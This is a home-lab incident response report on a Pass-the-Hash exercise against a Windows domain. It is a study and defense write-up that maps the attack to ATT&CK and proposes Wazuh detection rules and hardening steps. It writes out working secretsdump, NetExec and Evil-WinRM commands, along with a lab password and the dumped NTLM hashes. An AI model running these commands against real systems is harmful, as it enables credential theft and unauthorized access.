








# Incident Response Report — Case 004

**Case ID:** TLOA-IR-2026-04
**Date:** 2026-05-11
**Analyst:** Higor Silva
**Environment:** TLOA Lab (`tloa.local`)
**Severity:** High
**Status:** Closed

---

## 1. Executive Summary

On May 11, 2026, a Pass-the-Hash (PTH) attack was executed from a Kali Linux attacker machine against the `tloa.local` lab environment. The adversary first extracted NTLM hashes from the Windows 10 target host (`WIN10-TARGET`) using Impacket's `secretsdump.py`, leveraging valid local administrator credentials. The recovered hash was then used to authenticate without the plaintext password against multiple targets via SMB and WinRM. PTH attempts against the Domain Controller (`DC01`) were blocked by SMB signing enforcement — a default hardening control in Windows Server 2025 — mirroring the tooling-vs-hardening dynamic observed in Case 002. However, PTH authentication against `WIN10-TARGET` succeeded via SMB (confirmed by NetExec `Pwn3d!` response) and an interactive shell was subsequently obtained via Evil-WinRM, achieving confirmed lateral movement with full administrative access to the workstation. No Wazuh SIEM alert was generated for any phase of the attack. Detection was confirmed only through post-exercise manual log review.

---

## 2. Incident Details

| Field | Details |
|---|---|
| **Detection Source** | Manual investigation — post-exercise log review |
| **Affected Host(s)** | `WIN10-TARGET (192.168.204.130)` |
| **Affected Account(s)** | `DESKTOP-6IV1PK9\Administrador` (local administrator) |
| **Attacker Host** | Kali Linux (`192.168.204.x`) |
| **Attack Vector** | NTLM hash extracted via secretsdump → PTH via SMB/WinRM |
| **Initial Symptom** | No automated detection — discovered during lab exercise |
| **PTH Success Confirmed** | NetExec `Pwn3d!` on WIN10-TARGET (SMB) + Evil-WinRM interactive shell |
| **Containment Time** | N/A — isolated lab environment; no active compromise beyond exercise scope |

---

## 3. Timeline

| Timestamp (UTC-3) | Event | Source |
|---|---|---|
| 2026-05-11 ~08:04 | `impacket-secretsdump` executed against WIN10-TARGET using `higor:Tloa2025xLab` — NTLM hashes extracted from SAM database | Attacker terminal |
| 2026-05-11 ~08:04 | Hash obtained: `Administrador:500:...:63fa02db3151cf17649bf2b26610bf6c` | secretsdump output |
| 2026-05-11 ~08:13 | `impacket-secretsdump` executed against DC01 using domain credentials — domain Administrator hash obtained: `28c81b8257187fb2546cc96124b5201b` | Attacker terminal |
| 2026-05-11 ~08:15 | NetExec PTH attempt via SMB against DC01 — `Connection Error: NETBIOS connection timed out` (SMB signing enforcement) | Attacker terminal |
| 2026-05-11 ~08:16 | NetExec PTH attempt via WinRM against DC01 as domain Administrator — authentication failure (`tloa.local\Administrator`) | Attacker terminal |
| 2026-05-11 ~08:16 | Impacket `psexec.py` PTH attempt against DC01 — `STATUS_LOGON_FAILURE` | Attacker terminal |
| 2026-05-11 ~08:25 | NetExec PTH via SMB against WIN10-TARGET — `Pwn3d!` confirmed | Attacker terminal |
| 2026-05-11 ~08:34 | Evil-WinRM shell established on WIN10-TARGET — `whoami: desktop-6iv1pk9\administrador` | Attacker terminal |
| 2026-05-11 ~08:48–08:54 | Wazuh DC01 Security Events: multiple T1078 logon/logoff events (Rule 60106/60137) — no PTH or WinRM alert generated | Wazuh Security Events |

---

## 4. ATT&CK Mapping

| Tactic | Technique | ID | Method Used |
|---|---|---|---|
| Credential Access | OS Credential Dumping: LSASS Memory | T1003.001 | Impacket `secretsdump.py` — remote SAM dump via SMB |
| Lateral Movement | Use Alternate Authentication Material: Pass the Hash | T1550.002 | NetExec PTH via SMB (`Pwn3d!` on WIN10-TARGET) |
| Lateral Movement | Remote Services: Windows Remote Management | T1021.006 | Evil-WinRM interactive shell on WIN10-TARGET |
| Defense Evasion / Persistence | Valid Accounts | T1078 | Local administrator account `Administrador` used as PTH target |

> 🔗 [View on MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)

---

## 5. Technical Analysis

### 5.1 Attack Description

**Phase 1 — Credential Harvesting via secretsdump (T1003.001)**

The attacker used Impacket's `secretsdump.py` to remotely extract NTLM hashes from the SAM database of `WIN10-TARGET`, authenticating with valid local credentials. This technique abuses the Windows Remote Registry service over SMB, does not require an interactive session, and leaves minimal forensic artifacts on the target.

```bash
impacket-secretsdump higor:Tloa2025xLab@192.168.204.130
```

**Hashes extracted:**
```
Administrador:500:aad3b435b51404eeaad3b435b51404ee:63fa02db3151cf17649bf2b26610bf6c:::
higor:1000:aad3b435b51404eeaad3b435b51404ee:63fa02db3151cf17649bf2b26610bf6c:::
```

The same NTLM hash for both accounts reflects a shared password (`Tloa2025xLab`) set during lab preparation. The LM hash (`aad3b435...`) is the standard empty LM hash — LM authentication is disabled by default in modern Windows.

**Phase 2 — PTH Attempts Against DC01 (Blocked)**

Three PTH vectors were attempted against `DC01 (192.168.204.132)` — all blocked:

| Tool | Protocol | Result | Reason |
|---|---|---|---|
| NetExec | SMB (445) | NETBIOS timeout | SMB signing mandatory on WS2025 DC |
| NetExec | WinRM (5985) | Authentication failure | `higor` lacks WinRM access on DC01 |
| Impacket psexec | SMB (445) | `STATUS_LOGON_FAILURE` | SMB signing enforcement |

Windows Server 2025 enforces SMB signing by default on Domain Controllers, blocking NTLM-based PTH attacks over SMB. This is a significant hardening improvement over earlier Windows Server versions and effectively neutralized PTH as a lateral movement vector to the DC in this environment.

**Phase 3 — PTH Success Against WIN10-TARGET (T1550.002 + T1021.006)**

The attacker pivoted to target `WIN10-TARGET (192.168.204.130)`, which runs Windows 10 and does not enforce SMB signing by default.

```bash
# Step 1 — Validate PTH via SMB
netexec smb 192.168.204.130 -u Administrador -H 63fa02db3151cf17649bf2b26610bf6c
# Result: [+] DESKTOP-6IV1PK9\Administrador:63fa02db3151cf17649bf2b26610bf6c (Pwn3d!)

# Step 2 — Interactive shell via WinRM
evil-winrm -i 192.168.204.130 -u Administrador -H 63fa02db3151cf17649bf2b26610bf6c
```

**Access confirmed:**
```
*Evil-WinRM* PS C:\Users\Administrador\Documents> whoami
desktop-6iv1pk9\administrador

*Evil-WinRM* PS C:\Users\Administrador\Documents> hostname
DESKTOP-6IV1PK9

*Evil-WinRM* PS C:\Users\Administrador\Documents> ipconfig
IPv4 Address: 192.168.204.130
```

Full administrative shell achieved on WIN10-TARGET without knowing the plaintext password.

### 5.2 Evidence

**Impacket secretsdump — NTLM hashes extracted from WIN10-TARGET SAM:**


**Impacket secretsdump — DC01 hash extraction (errors during DRSUAPI phase):**


**NetExec — PTH attempt against DC01, Null Auth + NETBIOS timeout:**


**NetExec — PTH attempt against DC01 with domain Administrator hash:**


**NetExec — PTH attempt via WinRM against DC01 as domain Administrator:**


**NetExec — PTH via SMB against WIN10-TARGET — Pwn3d! confirmed:**


**Evil-WinRM — interactive shell on WIN10-TARGET, whoami/hostname/ipconfig:**


**Wazuh Security Events — only T1078 logon/logoff events, no PTH alert:**


### 5.3 Artifacts

| Artifact Type | Value / Location |
|---|---|
| Attacker Host | Kali Linux (`192.168.204.x`) |
| Source of Hash | WIN10-TARGET SAM database (via secretsdump) |
| Target Account | `DESKTOP-6IV1PK9\Administrador` (local admin) |
| NTLM Hash | `63fa02db3151cf17649bf2b26610bf6c` |
| PTH Tool (SMB) | NetExec (CrackMapExec fork) |
| PTH Tool (WinRM) | Evil-WinRM v3.9 |
| Hash Extraction Tool | Impacket `secretsdump.py` v0.14.0 |
| Successful Target | `WIN10-TARGET (192.168.204.130)` |
| Blocked Target | `DC01 (192.168.204.132)` — SMB signing enforcement |
| Shell Type | Interactive WinRM PowerShell session |

---

## 6. Detection Analysis

### What Was Detected ✅

| Detection | Rule / Method | Confidence |
|---|---|---|
| Multiple logon/logoff events on DC01 | Wazuh Rule 60106 / 60137 (T1078) | Low — routine authentication noise, no PTH context |

### What Was NOT Detected ❌

| Gap | Reason | Recommendation |
|---|---|---|
| Remote SAM dump via secretsdump (T1003.001) | No Wazuh rule for RemoteRegistry service start events or SAM access via SMB | Monitor Windows Event ID 7045 (new service installed) and 4656 (object handle requested on SAM) |
| PTH authentication via SMB (T1550.002) | No Wazuh rule correlating Event ID 4624 Logon Type 3 + NTLM auth package from non-standard source | Create rule: EID 4624, LogonType=3, AuthPackage=NTLM, source IP not in trusted range |
| WinRM lateral movement session (T1021.006) | No Wazuh rule for Event ID 4624 Logon Type 3 on port 5985 or WSMan provider activity | Monitor EID 4624 with LogonType=3 originating from WinRM port; alert on non-admin source IPs |
| Evil-WinRM interactive shell | No PowerShell Script Block Logging or Module Logging configured | Enable PowerShell Script Block Logging (EID 4104) and forward to Wazuh |

> **Key takeaway:** The entire PTH attack chain — hash extraction, multiple failed attempts against DC01, and successful lateral movement to WIN10-TARGET — generated zero dedicated security alerts. The only Wazuh activity observed was generic T1078 logon noise at Level 3, which would be buried in a real SOC environment. An attacker with an Evil-WinRM shell on a domain-joined workstation has a significant foothold with no detection signal.

---

## 7. Containment & Eradication

- [x] Confirmed PTH success was limited to WIN10-TARGET (isolated lab environment)
- [x] Evil-WinRM session terminated after exercise completion
- [x] DC01 confirmed protected by SMB signing — no domain-level compromise
- [ ] Rotate local administrator password on WIN10-TARGET
- [ ] Disable local Administrator account when not required for lab exercises
- [ ] Configure Wazuh rule for Event ID 4624 Logon Type 3 + NTLM correlation
- [ ] Enable PowerShell Script Block Logging on WIN10-TARGET
- [ ] Evaluate disabling WinRM on WIN10-TARGET when not in use

---

## 8. Root Cause Analysis

**Two conditions enabled the attack to succeed:**

**1. Reused credentials across accounts:** The local `Administrador` and domain user `higor` shared the same password (`Tloa2025xLab`), resulting in identical NTLM hashes. This amplifies the impact of any single credential compromise — obtaining one hash effectively yields access to all accounts sharing the same password.

**2. Absence of PTH detection logic in Wazuh:** Pass-the-Hash produces a distinctive signature in Windows Security Event logs: Event ID 4624 with Logon Type 3 (network) and Authentication Package NTLM, originating from a non-domain-joined source. This pattern is well-documented and detectable via correlation rules, but no such rule was configured. The attack was completely invisible to the SIEM throughout all phases.

**Why DC01 was protected but WIN10-TARGET was not:**

Windows Server 2025 enforces SMB signing by default on Domain Controllers, which prevents NTLM relay and PTH attacks over SMB. Windows 10 workstations do not enforce SMB signing by default — this asymmetry is common in real enterprise environments and creates a predictable lateral movement path from a compromised workstation toward other workstations, even when the DC itself is hardened.

---

## 9. Lessons Learned

### Detection Improvements
- Create Wazuh rule alerting on Event ID 4624 with `LogonType=3` and `AuthenticationPackageName=NTLM` from non-domain source IPs — this is the primary PTH detection indicator
- Monitor Event ID 7045 (new service installed) on WIN10-TARGET — secretsdump briefly installs a service during SAM extraction
- Enable PowerShell Script Block Logging (EID 4104) on all Windows hosts and forward to Wazuh — captures Evil-WinRM command activity
- Monitor Event ID 4648 (logon with explicit credentials) alongside 4624 — combination strengthens PTH attribution
- Alert on high-frequency 4624 events from a single non-domain source IP within a short window (lateral movement enumeration pattern)

### Hardening Recommendations
- Enable SMB signing on WIN10-TARGET: `Set-SmbServerConfiguration -RequireSecuritySignature $true` — eliminates PTH via SMB as a viable vector
- Enforce unique local administrator passwords per host using LAPS (Local Administrator Password Solution) — prevents hash reuse across workstations
- Disable local Administrator account when not required; use dedicated service accounts with minimal privileges
- Restrict WinRM access via Windows Firewall to approved management IPs only
- Enforce credential uniqueness policy — prevent shared passwords between local and domain accounts

### Lab Improvements
- Add Wazuh rule for EID 4624 Logon Type 3 + NTLM correlation and re-run this case to validate detection
- Enable PowerShell Script Block Logging on WIN10-TARGET via Group Policy
- Test PTH after enabling SMB signing on WIN10-TARGET to confirm the control is effective
- Document LAPS setup as a future lab hardening exercise

---

## 10. References

- [MITRE ATT&CK T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [MITRE ATT&CK T1021.006 — Remote Services: Windows Remote Management](https://attack.mitre.org/techniques/T1021/006/)
- [MITRE ATT&CK T1003.001 — OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/)
- [Impacket — secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)
- [NetExec (CrackMapExec fork) Documentation](https://www.netexec.wiki/)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)
- [Microsoft — Event ID 4624: An account was successfully logged on](https://learn.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4624)
- [Microsoft — SMB Signing](https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-signing-overview)
- [Microsoft — LAPS (Local Administrator Password Solution)](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)
- [Wazuh SIEM Documentation](https://documentation.wazuh.com/)

---

*Report generated as part of the TLOA Lab — Threat Lab Offensive Architecture*
*All activity performed in an isolated lab environment for educational purposes.*
